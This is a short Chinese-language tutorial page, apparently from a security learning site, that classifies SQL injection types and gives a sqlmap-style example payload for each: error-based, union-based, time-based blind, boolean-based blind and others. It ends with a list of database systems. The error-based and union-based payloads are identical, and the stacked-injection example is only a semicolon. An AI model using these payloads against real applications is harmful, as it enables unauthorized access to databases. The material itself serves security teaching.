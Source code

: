 # 注入类型

::: warning DeeLMind 推荐
分类只是便于新手学习，学到最后应该九九归一，无所谓什么类型
:::

## 注入类型分类

<DocsAD/>

* In-band SQLi (Classic SQLi)

```SQL
id=4' AND (SELECT 2*(IF((SELECT * FROM (SELECT CONCAT(0x7178787671,(SELECT (ELT(2556=2556,1))),0x71627a6a71,0x78))s), 8446744073709551610, 8446744073709551610))) AND 'JOtO'='JOtO
```

* Error-based SQLi

```SQL
id=-7810' UNION ALL SELECT NULL,CONCAT(0x7171627a71,0x415449484d526167596a77484c6e47775644794b4b7048756b6b47746472536a4c58694471634d65,0x7171787171),NULL--
```

* Union-based SQLi

```SQL
id=-7810' UNION ALL SELECT NULL,CONCAT(0x7171627a71,0x415449484d526167596a77484c6e47775644794b4b7048756b6b47746472536a4c58694471634d65,0x7171787171),NULL--
```

* Time-based Blind SQLi

```SQL
id=4' AND (SELECT 5114 FROM (SELECT(SLEEP(2))) AS RezN) AND 'vULj'='vULj
```

* Boolean-based Blind SQLi

```SQL
id=1' AND 5957=5957 AND 'DFUZ'='DFUZ
```

* Stacked injections

```SQL
;
```

* OOB(Out Of Band)

* 二次注入

## 数据库分类

* DB2
* MySQL
* MongoDB
* Redis
* Oracle
* PostgreSQL
* Microsoft SQL Server
* SQLite
* Cassandra
* CouchDB
* Amazon Aurora
* Google Cloud Spanner
* Firebase Realtime Database
* Apache HBase
* MariaDB
* Amazon DynamoDB
* Apache Cassandra
* Apache Hive
* Apache Phoenix
* Apache Spark SQL
* Apache Derby
* ArangoDB
* CockroachDB
* Couchbase
* Elasticsearch
* InfluxDB
* Neo4j
* OrientDB
* RavenDB
* Riak
* TimescaleDB